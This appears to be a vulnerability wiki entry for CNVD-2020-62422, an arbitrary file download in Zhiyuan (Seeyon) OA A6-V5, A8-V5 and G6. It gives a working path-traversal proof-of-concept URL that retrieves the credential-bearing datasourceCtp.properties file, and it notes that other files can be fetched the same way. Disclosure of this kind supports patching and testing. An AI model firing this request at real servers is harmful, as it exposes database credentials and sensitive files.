 # Zhiyuan OA webmail.do any file download CNVD-2020-62422

## Vulnerability Description

Zhiyuan OA has an arbitrary file download vulnerability, and an attacker can use this vulnerability to download any file to obtain sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6-V5</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A8-V5</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA G6</span>

## Network surveying and mapping



## Vulnerability reappears

Verify POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

The `datasourceCtp.properties` configuration file will be downloaded in the vulnerable OA system.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-11.png)



Change the parameter filePath to download other files